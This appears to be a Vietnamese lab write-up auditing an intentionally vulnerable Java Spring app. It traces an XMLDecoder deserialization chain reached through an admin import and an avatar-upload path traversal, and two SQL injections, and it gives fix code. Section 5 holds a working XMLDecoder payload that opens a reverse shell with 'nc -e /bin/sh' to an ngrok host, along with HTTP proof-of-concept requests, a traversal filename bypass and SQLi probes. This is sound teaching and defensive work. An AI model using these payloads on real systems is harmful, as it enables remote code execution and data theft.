Theo quy tắc sink -> source, bắt đầu bằng fuzz/search các dangerous function, rồi mới lần ngược về input:

| Nhóm fuzz               | Pattern cần tìm                                           | Kết quả trong repo                              | Ý nghĩa                                |
| ----------------------- | --------------------------------------------------------- | ----------------------------------------------- | -------------------------------------- |
| XML object decoder      | `XMLDecoder`, `readObject`                                | `PromotionServiceImpl.importPromotionXml(...)`  | Sink chính                             |
| Java deserialization    | `ObjectInputStream`, `readObject`                         | Không phải flow này                             | Loại khỏi XXE XMLDecoder               |
| XML parser truyền thống | `DocumentBuilderFactory`, `SAXParserFactory`, `SAXReader` | Không phải flow này                             | Không phải XXE external entity classic |
| File queue/import       | `DirectoryStream`, `Files.newInputStream`, `Scheduled`    | `importPromotionXmlFiles()` quét import dir     | Trigger gián tiếp                      |
| Upload/file write       | `MultipartFile`, `transferTo`, `Files.move`               | `queuePromotionXml(...)` và `uploadAvatar(...)` | Source đưa XML vào disk                |

Kết quả fuzz xác định sink cần audit:

```java
// src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
private void importPromotionXml(Path xmlFile) {
    try (XMLDecoder decoder = new XMLDecoder(new BufferedInputStream(Files.newInputStream(xmlFile)))) {
        Object decodedObject = decoder.readObject(); // [SINK] object graph/method invocation
        if (decodedObject instanceof Promotion promotion) {
            Promotion savedPromotion = importPromotion(promotion);
            logger.info("Imported promotion XML {} as promotion {}", xmlFile.getFileName(), savedPromotion.getCode());
        } else {
            logger.info("Imported promotion XML {} as {}", xmlFile.getFileName(), decodedObject);
        }
        moveToProcessed(xmlFile);
    } catch (Exception e) {
        logger.warn("Failed to import promotion XML {}", xmlFile.getFileName(), e);
    }
}
```

### 3.2. Từ `readObject()` lần ngược ra file trên disk

`readObject()` không nhận input trực tiếp từ request. Nó nhận `xmlFile`, là từng file được scheduled job lấy từ thư mục import:

```java
// src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
@Scheduled(
    initialDelayString = "${app.promotion-import-initial-delay-ms:3000}",
    fixedDelayString = "${app.promotion-import-fixed-delay-ms:6000}"
)
public void importPromotionXmlFiles() {
    Path promotionDir = Paths.get(importDir).toAbsolutePath().normalize();

    try (DirectoryStream<Path> files = Files.newDirectoryStream(promotionDir, "*.{xml,XML}")) {
        for (Path xmlFile : files) {
            importPromotionXml(xmlFile); // [SINK CALL]
        }
    } catch (IOException e) {
        logger.warn("Could not scan promotion import directory {}", promotionDir, e);
    }
}
```

Các điểm cần chú ý khi review:

| Code | Vai trò | Ghi chú phát hiện |
|---|---|---|
| `@Scheduled(...)` | Trigger tự động | Attacker chỉ cần đặt file vào đúng thư mục, không cần gọi sink trực tiếp |
| `Paths.get(importDir).toAbsolutePath().normalize()` | Base import directory | Normalize base path nhưng không làm XML an toàn |
| `Files.newDirectoryStream(..., "*.{xml,XML}")` | Chọn candidate XML | Cho phép cả lowercase và uppercase extension |
| `importPromotionXml(xmlFile)` | Điểm gọi sink | File nào match glob đều đi vào XMLDecoder |
| Catch exception không move file | Retry lặp lại | Payload lỗi có thể bị thử lại ở các vòng scheduled sau |

### 3.3. Từ import directory lần ngược ra direct source

Direct source nằm ở endpoint admin import XML:

```java
// src/main/java/org/example/controller/PromotionController.java
@PostMapping(value = "/import-xml", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> importPromotionXml(@RequestParam("file") MultipartFile file) {
    try {
        return ResponseEntity.ok().body(promotionService.queuePromotionXml(file)); // [SOURCE -> QUEUE]
    } catch (IllegalArgumentException e) {
        return ResponseEntity.badRequest().body(e.getMessage());
    } catch (IOException e) {
        return ResponseEntity.internalServerError().body("Could not queue promotion XML import");
    }
}
```

Security rule:

```java
// src/main/java/org/example/security/WebSecurityConfig.java
.requestMatchers(HttpMethod.POST, "/api/v1/promotion/import-xml").hasRole("ADMIN")
```

Queue logic:

```java
// src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
public Map<String, String> queuePromotionXml(MultipartFile file) throws IOException {
    String originalFilename = file.getOriginalFilename();              // [SOURCE: client filename]
    String safeFilename = Paths.get(originalFilename).getFileName().toString();
    if (!safeFilename.toLowerCase().endsWith(".xml")) {
        throw new IllegalArgumentException("Only XML promotion files are allowed");
    }

    Path promotionDir = Paths.get(importDir).toAbsolutePath().normalize();
    Files.createDirectories(promotionDir);

    Path destination = promotionDir.resolve(safeFilename).normalize(); // [QUEUE PATH]
    Path uploadingFile = promotionDir.resolve(safeFilename + ".uploading").normalize();

    file.transferTo(uploadingFile.toFile());                           // [WRITE XML]
    Files.move(uploadingFile, destination, StandardCopyOption.REPLACE_EXISTING);

    return Map.of("status", "QUEUED", "fileName", safeFilename, "path", destination.toString());
}
```

Direct source kết luận:

| Bước | Input attacker điều khiển | Có đủ để tới sink không? |
|---|---|---|
| Multipart `file` | Nội dung XML | Có, nội dung được ghi nguyên vẹn vào import dir |
| Multipart filename | Tên file | Có ảnh hưởng tới tên file queued, nhưng đã bị `getFileName()` cắt path |
| Extension check | `.xml` lowercase | Direct import yêu cầu `.xml`; không cần bypass |
| Scheduler | Không do attacker gọi | Tự chạy theo cấu hình |

### 3.4. Từ import directory lần ngược ra FileUpload chained source

Ngoài direct admin endpoint, FileUpload có thể kết hợp nếu attacker dùng avatar upload để ghi file ra ngoài `uploads/avatars` và rơi vào `imports/promotions`.

```java
// src/main/java/org/example/serviceImpl/UserServiceImpl.java
private static final Set<String> BLOCKED_FILE_EXTENSIONS = Set.of(
        ".exe", ".bat", ".cmd", ".sh", ".jar", ".jsp", ".xml");

private static final Pattern OBVIOUS_PARENT_TRAVERSAL =
        Pattern.compile("(^|/)\\.\\./(?!/)");

public User uploadAvatar(Integer id, MultipartFile file, String requestedFilename) throws IOException {
    Path avatarDir = Paths.get(uploadDir, "avatars").toAbsolutePath().normalize();
    String filename = resolveUploadFilename(file, requestedFilename);  // [SOURCE]

    rejectRelativeParentPath(filename, "Filename cannot contain ../"); // misses ..//
    if (isBlockedByBlacklist(filename)) {                              // case-sensitive
        throw new IllegalArgumentException("This file type is not allowed");
    }

    Path destination = avatarDir.resolve(filename);                    // [PATH SINK]
    if (destination.getParent() != null) {
        Files.createDirectories(destination.getParent());
    }

    file.transferTo(destination.toFile());                             // [WRITE]
    user.setAvatarUrl("/uploads/avatars/" + filename);
    return userRepository.save(user);
}

private boolean isBlockedByBlacklist(String filename) {
    return BLOCKED_FILE_EXTENSIONS.stream().anyMatch(filename::endsWith);
}
```

Nhánh kết hợp hợp lệ khi các điều kiện này cùng đúng:

| Điều kiện                                                                        | Vì sao cần                                                     |
| -------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| Filename dùng repeated slash traversal như `..//..//imports/promotions/poc.XML`  | Regex chỉ bắt `../` dạng obvious, không bắt `..//`             |
| Extension dùng uppercase `.XML`                                                  | Avatar blacklist chặn `.xml` case-sensitive, nên `.XML` bypass |
| Đường đi từ `uploads/avatars` tới `imports/promotions` đúng theo cấu hình deploy | Importer chỉ quét `app.promotion-import-dir`                   |
| Scheduler đang bật                                                               | File chỉ kích hoạt khi importer quét                           |
| Payload XMLDecoder hợp lệ                                                        | `readObject()` phải parse được object graph                    |

Flow chain:

```mermaid
flowchart LR
    A["POST /api/v1/user/{id}/avatar"]
    B["filename: ..//..//imports/promotions/poc.XML"]
    C["OBVIOUS_PARENT_TRAVERSAL misses repeated slash"]
    D["Blacklist misses uppercase .XML"]
    E["avatarDir.resolve(filename)"]
    F["transferTo writes outside uploads/avatars"]
    G["imports/promotions/poc.XML"]
    H["Scheduled importer"]
    I["XMLDecoder.readObject()"]

    A --> B --> C --> D --> E --> F --> G --> H --> I
```

Kết luận sink -> source:

```text
Nếu XMLDecoder.readObject() đọc file từ thư mục mà attacker có thể ghi vào,
đánh dấu unsafe XML object deserialization/RCE.

Nếu FileUpload có traversal/arbitrary write vào chính thư mục import đó,
đánh dấu chained FileUpload -> XMLDecoder RCE.
```

***

## 4. Source -> Sink

### 4.1. Direct source: Admin import XML

Frontend source:

```jsx
// frontend/src/pages/admin/Promotions.jsx
<input
  type="file"
  accept=".xml,text/xml,application/xml"
  onChange={(event) => setSelectedFile(event.target.files?.[0] || null)}
/>
```

```javascript
// frontend/src/services/api.js
export const importPromotionXml = (file) => {
  const formData = new FormData();
  formData.append('file', file);

  return api.post('/promotion/import-xml', formData);
};
```

Backend route:

```java
@PostMapping(value = "/import-xml", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> importPromotionXml(@RequestParam("file") MultipartFile file) {
    return ResponseEntity.ok().body(promotionService.queuePromotionXml(file));
}
```

Filesystem queue:

```java
Path destination = promotionDir.resolve(safeFilename).normalize();
Path uploadingFile = promotionDir.resolve(safeFilename + ".uploading").normalize();

file.transferTo(uploadingFile.toFile());
Files.move(uploadingFile, destination, StandardCopyOption.REPLACE_EXISTING);
```

Scheduled sink:

```java
try (XMLDecoder decoder = new XMLDecoder(new BufferedInputStream(Files.newInputStream(xmlFile)))) {
    Object decodedObject = decoder.readObject(); // [RCE/DESERIALIZATION SINK]
    if (decodedObject instanceof Promotion promotion) {
        Promotion savedPromotion = importPromotion(promotion);
        logger.info("Imported promotion XML {} as promotion {}", xmlFile.getFileName(), savedPromotion.getCode());
    }
}
```

Direct source -> sink summary:



### 4.2. Chained source: FileUpload -> import directory -> XMLDecoder

FileUpload source:

```java
// src/main/java/org/example/controller/UserController.java
@PostMapping(value = "/{id}/avatar", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> uploadAvatar(@PathVariable Integer id,
                                      @RequestParam("file") MultipartFile file,
                                      @RequestParam(value = "filename", required = false) String filename,
                                      Authentication authentication) {
    if (!canAccessUser(authentication, id)) {
        return ResponseEntity.status(403).body("Forbidden");
    }
    User user = userService.uploadAvatar(id, file, filename);
    return ResponseEntity.ok().body(user);
}
```

Với filename:

```text
..//..//imports/promotions/poc.XML
```

Từ `uploads/avatars`, path này normalize về thư mục import của project/container:

| Môi trường | Base avatar dir | Target sau traversal |
|---|---|---|
| Local default | `<repo>/uploads/avatars` | `<repo>/imports/promotions/poc.XML` |
| Docker default | `/app/uploads/avatars` | `/app/imports/promotions/poc.XML` |

Sau khi file rơi vào import dir, source ban đầu không còn là admin import endpoint nữa; scheduler vẫn kích hoạt cùng sink `XMLDecoder.readObject()`.

***

## 5. Khai thác lỗ hổng

Có thể gọi `java.lang.Runtime` trong file XML được truyển vào scheduled job thông qua chain hiện tại để RCE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="3">
          <void index="0">
              <string>/bin/sh</string>
          </void>
          <void index="1">
              <string>-c</string>
          </void>
          <void index="2">
              <string>nc -e /bin/sh 0.tcp.ap.ngrok.io <port> </string>
          </void>
      </array>
      </void>
 </object>
</java>
```

Direct import PoC:

```http
POST /api/v1/promotion/import-xml HTTP/1.1
Authorization: Bearer <admin-jwt>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="poc.xml"
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  ...
</java>
------WebKitFormBoundary--
```

FileUpload chained PoC shape:

```http
POST /api/v1/user/{ownUserId}/avatar HTTP/1.1
Authorization: Bearer <user-jwt>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="file"; filename="..//..//imports/promotions/shell.XML"
Content-Type: image/jpeg

<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  ...
</java>

------WebKitFormBoundaryqJRfwZA29YbZZTwf--
```

Mở netcat listener để bắt shell:

```bash
{ printf 'echo "[KTVWebLab] shell connected: $(id) @ $(hostname)"\n'; cat; } | nc -lvn 9999
```

Dấu hiệu xác nhận:

| Dấu hiệu                                                                                                   | Ý nghĩa                                                      |
| ---------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| netcat bắt shell thành công và hiển thị output của lệnh `[KTVWebLab] shell connected: $(id) @ $(hostname)` | Shell đã chạy                                                |
| File XML được chuyển sang `imports/promotions/processed/`                                                  | `readObject()` không throw exception và importer move file   |
| Log `Imported promotion XML ... as ...`                                                                    | Decoder parse được object hoặc side effect object            |
| Log `Failed to import promotion XML ...` lặp lại                                                           | Payload parse lỗi, file có thể bị retry ở vòng scheduled sau |

***

## 6. Fix guidance đặt cạnh sink

### 6.1. Không dùng XMLDecoder cho untrusted input

```java
// File: src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
/*
 * FIXED CODE:
 * Do not parse uploaded XML with java.beans.XMLDecoder. XMLDecoder is a Java
 * object deserialization mechanism and can invoke constructors/methods while
 * readObject() is running.
 *
 * Replace it with a strict PromotionImportDto parser that only maps expected
 * scalar fields, rejects DOCTYPE/external entities, validates business fields,
 * and then builds a Promotion entity server-side.
 */
private void importPromotionXml(Path xmlFile) {
    PromotionImportDto dto = securePromotionXmlParser.parse(xmlFile);
    Promotion promotion = promotionImportMapper.toPromotion(dto);
    Promotion savedPromotion = importPromotion(promotion);
    logger.info("Imported promotion XML {} as promotion {}", xmlFile.getFileName(), savedPromotion.getCode());
    moveToProcessed(xmlFile);
}
```

### 6.2. Nếu vẫn dùng XML parser, tắt external entity và map DTO thủ công

```java
// File: src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
/*
 * FIXED CODE:
 * Example hardened parser setup for XML-to-DTO parsing. This does not make
 * XMLDecoder safe; it is for a replacement parser such as DOM/SAX/StAX.
 */
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
factory.setXIncludeAware(false);
factory.setExpandEntityReferences(false);
factory.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
factory.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");

Document document = factory.newDocumentBuilder().parse(xmlFile.toFile());
PromotionImportDto dto = PromotionImportDto.from(document);
```

### 6.3. Fix queue path để không tạo thêm write primitive

```java
// File: src/main/java/org/example/serviceImpl/PromotionServiceImpl.java
/*
 * FIXED CODE:
 * Keep queued files inside promotionDir, generate server-side names, and do
 * not return absolute filesystem paths to clients.
 */
String extension = ".xml";
String queuedFilename = UUID.randomUUID() + extension;
Path promotionDir = Paths.get(importDir).toAbsolutePath().normalize();
Path destination = promotionDir.resolve(queuedFilename).normalize();
if (!destination.startsWith(promotionDir)) {
    throw new IllegalArgumentException("Invalid promotion import path");
}

file.transferTo(destination.toFile());
return Map.of("status", "QUEUED", "fileName", queuedFilename);
```

### 6.4. Fix chain từ FileUpload

Phần FileUpload đã có fix guidance riêng, nhưng với chain XMLDecoder cần nhấn mạnh thêm:

| Fix                                             | Tác dụng                                       |
| ----------------------------------------------- | ---------------------------------------------- |
| Generate server-side avatar filename            | User không còn điều khiển path ghi             |
| Whitelist extension/MIME ảnh thay vì blacklist  | `.XML`, `.phtml`, `.jsp.jpg` không còn đi qua  |
| `destination.normalize().startsWith(avatarDir)` | Chặn traversal ra khỏi `uploads/avatars`       |
| Import dir tách quyền ghi khỏi upload dir       | Upload write primitive không thể feed importer |

***

## 7. Tổng kết

XXE XMLDecoder flow nguy hiểm vì có hai source khác nhau cùng đổ về một sink:

1. Admin import XML ghi file vào `imports/promotions`;
2. FileUpload avatar có thể ghi traversal vào cùng import dir nếu bypass blacklist/path filter;
3. Scheduled job tự quét file XML;
4. `XMLDecoder.readObject()` deserialize object graph và có thể kích hoạt method invocation;
5. `instanceof Promotion` diễn ra sau khi object đã được decode, nên không phải boundary bảo vệ;
6. Owner-check của `/uploads/**` không ảnh hưởng đến chain này vì importer đọc filesystem trực tiếp.

Kết luận phát hiện:

```text
XMLDecoder + attacker-writable import directory = unsafe XML deserialization/RCE.

FileUpload traversal -> import directory = chained FileUpload -> XMLDecoder RCE.
```


# SQL Injection

***

## 1. Kết luận nhanh cho SQL Injection

| Hạng mục               | Flight search SQLi                                              | Transaction search SQLi                                                     |
| ---------------------- | --------------------------------------------------------------- | --------------------------------------------------------------------------- |
| Endpoint               | `GET /api/v1/flight/conditions`                                 | `GET /api/v1/transaction/conditions`                                        |
| Source                 | Query param `flightName`                                        | Query param `flightName`                                                    |
| Sink                   | `FlightSearchRepositoryImpl.appendKeywordSearch(...)`           | `TransactionSearchRepositoryImpl.appendFlightNameSearch(...)`               |
| Dangerous API          | `EntityManager.createNativeQuery(sql.toString(), Flight.class)` | `EntityManager.createNativeQuery(sql.toString(), Transaction.class)`        |
| Query bug              | String concat vào `LIKE '%...%'`                                | String concat vào `LIKE '%...%'`                                            |
| Access                 | Public GET theo `WebSecurityConfig`                             | `ROLE_USER` hoặc `ROLE_ADMIN`                                               |
| Loại khai thác ổn định | Error-based                                                     | Boolean/content-based blind                                                 |
| Error behavior         | `500` trả JSON có `e.getMessage()`                              | `500` chỉ trả `Server Error`                                                |
| Boolean signal         | `status=SUCCESS/NOT_FOUND` trong body                           | `200` có list hoặc `400 Not found`                                          |


> **Nhận định:** SQLi không nằm ở controller mà nằm ở custom repository build native SQL. `flightName`/`keyword` được nối trực tiếp vào chuỗi SQL trước khi gọi `createNativeQuery(...)`. Các param khác như `dateFrom`, `dateTo`, `departure`, `arrival`, `status` được bind an toàn, nhưng chỉ cần một field concat là đủ tạo SQLi.

***

## 2. Biểu đồ flow tổng quan

```mermaid
flowchart TD
    subgraph FlightFlow["Flight search: error-based"]
        A["Client / Search flight UI"]
        B["GET /api/v1/flight/conditions?flightName=..."]
        C["FlightController.getByConditions"]
        D["FlightServiceImpl.searchFlights"]
        E["FlightSearchRepositoryImpl.searchFlights"]
        F["appendKeywordSearch(sql, keyword)"]
        G["createNativeQuery(sql.toString(), Flight.class)"]
        H["Response leaks e.getMessage() on exception"]
    end

    subgraph TransactionFlow["Transaction search: boolean/content-based"]
        I["Admin/User transaction UI or API client"]
        J["GET /api/v1/transaction/conditions?flightName=..."]
        K["TransactionController.getByConditions"]
        L["TransactionServiceImpl.findByConditions"]
        M["TransactionSearchRepositoryImpl.searchTransactions"]
        N["appendFlightNameSearch(sql, flightName)"]
        O["createNativeQuery(sql.toString(), Transaction.class)"]
        P["200 list vs 400 Not found"]
    end

    A --> B --> C --> D --> E --> F --> G --> H
    I --> J --> K --> L --> M --> N --> O --> P
```

***

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

| Nhóm fuzz | Pattern cần tìm | Kết quả trong repo | Ý nghĩa |
|---|---|---|---|
| Native SQL | `createNativeQuery`, `nativeQuery = true` | `FlightSearchRepositoryImpl`, `TransactionSearchRepositoryImpl` | Candidate SQLi |
| String-built query | `StringBuilder sql`, `.append(userInput)` | `appendKeywordSearch`, `appendFlightNameSearch` | Source bị concat vào SQL |
| Parameter binding | `setParameter(...)` | Có cho `dateFrom/dateTo/status/departure/arrival` | Những param này ít rủi ro hơn |
| Error exposure | `catch (Exception e)`, `e.getMessage()` | `FlightController.getByConditions` | Tạo error-based signal |
| Content signal | `ObjectUtils.isEmpty(...)` trả khác response | `TransactionController.getByConditions` | Tạo boolean/content-based blind |

Kết quả fuzz xác định hai sink:

```java
// src/main/java/org/example/repository/FlightSearchRepositoryImpl.java
Query query = entityManager.createNativeQuery(sql.toString(), Flight.class); // [SINK]
```

```java
// src/main/java/org/example/repository/TransactionSearchRepositoryImpl.java
Query query = entityManager.createNativeQuery(sql.toString(), Transaction.class); // [SINK]
```

### 3.2. Sink Flight: từ `createNativeQuery` lần ngược ra concat

```java
// src/main/java/org/example/repository/FlightSearchRepositoryImpl.java
private void appendKeywordSearch(StringBuilder sql, String keyword) {
    if (keyword == null || keyword.isBlank()) {
        return;
    }

    sql.append("AND (LOWER(f.name) LIKE LOWER('%")
            .append(keyword) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.departure_code) LIKE LOWER('%")
            .append(keyword) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.arrival_code) LIKE LOWER('%")
            .append(keyword) // [UNTRUSTED INPUT CONCAT]
            .append("%')) ");
}
```

Final query shape:

```sql
SELECT f.*
FROM flight f
WHERE f.is_deleted = 0
AND (
    LOWER(f.name) LIKE LOWER('%<keyword>%')
    OR LOWER(f.departure_code) LIKE LOWER('%<keyword>%')
    OR LOWER(f.arrival_code) LIKE LOWER('%<keyword>%')
)
AND f.start_time BETWEEN :dateFrom AND :dateTo
AND LOWER(f.departure) LIKE LOWER(CONCAT('%', :departure, '%'))
AND LOWER(f.arrival) LIKE LOWER(CONCAT('%', :arrival, '%'))
ORDER BY f.start_time ASC
```

Từ sink lần ngược ra controller:

```java
// src/main/java/org/example/controller/FlightController.java
@GetMapping(value = "/conditions")
public ResponseEntity<?> getByConditions(
        @RequestParam String flightName, // [SOURCE]
        @RequestParam @DateTimeFormat(pattern = "yyyy-MM-dd") LocalDate dateFrom,
        @RequestParam @DateTimeFormat(pattern = "yyyy-MM-dd") LocalDate dateTo,
        @RequestParam String departure,
        @RequestParam String arrival,
        @RequestParam Integer pageNum,
        @RequestParam Integer pageSize) {
    try {
        List<Flight> flightList = flightService.searchFlights(
            flightName, dateTimeFrom, dateTimeTo, departure, arrival, pageable);
        ...
    } catch (Exception e) {
        Map<String, Object> response = new HashMap<>();
        response.put("status", "ERROR");
        response.put("message", "Lỗi server: " + e.getMessage()); // [ERROR LEAK]
        return ResponseEntity.internalServerError().body(response);
    }
}
```

Kết luận Flight sink -> source:

| Điểm           | Kết luận                                 |
| -------------- | ---------------------------------------- |
| Source         | `@RequestParam String flightName`        |
| Propagation    | Controller -> service -> repository      |
| Sink           | `append(keyword)` vào SQL literal        |
| Error signal   | Response body chứa SQL exception message |
| Classification | Error-based SQLi                         |

### 3.3. Sink Transaction: từ `createNativeQuery` lần ngược ra concat

```java
// src/main/java/org/example/repository/TransactionSearchRepositoryImpl.java
private void appendFlightNameSearch(StringBuilder sql, String flightName) {
    if (flightName == null || flightName.isBlank()) {
        return;
    }

    sql.append("AND (LOWER(f.name) LIKE LOWER('%")
            .append(flightName) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.departure_code) LIKE LOWER('%")
            .append(flightName) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.arrival_code) LIKE LOWER('%")
            .append(flightName) // [UNTRUSTED INPUT CONCAT]
            .append("%')) ");
}
```

Final query shape:

```sql
SELECT t.*
FROM `transaction` t
JOIN flight f ON f.id = t.flight_id
WHERE t.is_deleted = 0
AND (
    LOWER(f.name) LIKE LOWER('%<flightName>%')
    OR LOWER(f.departure_code) LIKE LOWER('%<flightName>%')
    OR LOWER(f.arrival_code) LIKE LOWER('%<flightName>%')
)
AND t.update_date BETWEEN :dateFrom AND :dateTo
AND t.status = :status
ORDER BY t.update_date DESC
```

Từ sink lần ngược ra controller:

```java
// src/main/java/org/example/controller/TransactionController.java
@GetMapping(value = "/conditions")
public ResponseEntity<?> getByConditions(@RequestParam String flightName, // [SOURCE]
        @RequestParam Date dateFrom,
        @RequestParam Date dateTo,
        @RequestParam TransactionStatusEnum status,
        @RequestParam Integer pageNum,
        @RequestParam Integer pageSize,
        Authentication authentication) {
    try {
        List<Transaction> transactionList = transactionService
                .findByConditions(flightName, dateFrom, dateTo, status, pageable);
        ...
        if (ObjectUtils.isEmpty(transactionList)) {
            return ResponseEntity.badRequest().body("Not found"); // [FALSE/EMPTY SIGNAL]
        } else {
            return ResponseEntity.ok().body(transactionList); // [TRUE/NON-EMPTY SIGNAL]
        }
    } catch (Exception e) {
        return ResponseEntity.internalServerError().body("Server Error"); // [GENERIC ERROR]
    }
}
```

Kết luận Transaction sink -> source:

| Điểm | Kết luận |
|---|---|
| Source | `@RequestParam String flightName` |
| Propagation | Controller -> service -> repository |
| Sink | `append(flightName)` vào native SQL |
| Error signal | Không leak message, chỉ `Server Error` |
| Boolean signal | `200` list khác `400 Not found` |
| Classification | Boolean/content-based blind SQLi |

***

## 4. Source -> Sink

### 4.1. Flight source -> sink

Frontend helper:

```javascript
// frontend/src/services/api.js
export const searchFlights = (searchTerm, dateFrom, dateTo, departure, arrival, page = 0, size = 10) =>
  api.get(`/flight/conditions?flightName=${encodeURIComponent(searchTerm)}&dateFrom=${dateFrom}&dateTo=${dateTo}&departure=${encodeURIComponent(departure)}&arrival=${encodeURIComponent(arrival)}&pageNum=${page}&pageSize=${size}`);
```

`encodeURIComponent(...)` chỉ encode URL để request hợp lệ; nó không biến concat SQL ở backend thành an toàn.

Flow:



### 4.2. Transaction source -> sink

Frontend helper:

```javascript
// frontend/src/services/api.js
export const getTransactionsByConditions = (flightName, dateFrom, dateTo, status, page = 0, size = 10) =>
  api.get(`/transaction/conditions?flightName=${encodeURIComponent(flightName)}&dateFrom=${dateFrom}&dateTo=${dateTo}&status=${status}&pageNum=${page}&pageSize=${size}`);
```

Security:

```java
// src/main/java/org/example/security/WebSecurityConfig.java
.requestMatchers(HttpMethod.GET,
        "/api/v1/transaction/conditions",
        "/api/v1/transaction/id",
        "/api/v1/transaction/flight",
        "/api/v1/transaction/flight/availability").hasAnyRole("USER", "ADMIN")
```

Flow:




***

## 5. Khai thác lỗ hổng

### 5.1. Blackbox detect SQLi

Mục tiêu blackbox là chứng minh param `flightName` đi vào SQL text, trong khi chưa cần biết source code backend. Vì endpoint trả JSON có `status` và `message`, có thể dùng ba loại signal:

| Signal | Ý nghĩa |
|---|---|
| `200` + `status=SUCCESS` | Predicate làm query trả row |
| `200` + `status=NOT_FOUND` | Predicate không trả row |
| `500` + `status=ERROR` + DB/JDBC message | Query bị lỗi ở DB hoặc Hibernate/JPA |

Baseline hợp lệ:

```text
GET /api/v1/flight/conditions
  ?flightName=QA
  &dateFrom=2026-07-01
  &dateTo=2026-07-31
  &departure=
  &arrival=
  &pageNum=0
  &pageSize=10
```

Probe quote đơn giản:

```text
flightName='
```

Nếu response trả lỗi kiểu `JDBC exception executing SQL`, `You have an error in your SQL syntax`, hoặc leak fragment SQL như `LOWER('%...%')`, đây là tín hiệu mạnh cho SQLi error-based.

Control test trên param bind an toàn:

```text
departure='
arrival='
```

Nếu `flightName='` gây SQL/JDBC error nhưng `departure='` hoặc `arrival='` không gây lỗi tương tự, có thể khoanh vùng sink nằm ở `flightName`, vì `departure` và `arrival` đang được bind bằng named parameter.

Trong blackbox, ban đầu không biết backend dùng pattern nào. Nếu thử payload có comment cuối:

```text
flightName=QA%') OR 1=1 --
```

endpoint có thể trả:

```json
{
  "message": "Lỗi server: Could not locate named parameter [dateFrom], expecting one of []",
  "status": "ERROR"
}
```

Lỗi này không phải DB error-based SQLi đúng nghĩa. Đây là lỗi Hibernate/JPA trước khi query chạy: payload đã comment hoặc phá mất phần tail chứa `:dateFrom`, `:dateTo`, `:departure`, `:arrival`, trong khi code Java vẫn gọi `query.setParameter(...)`.

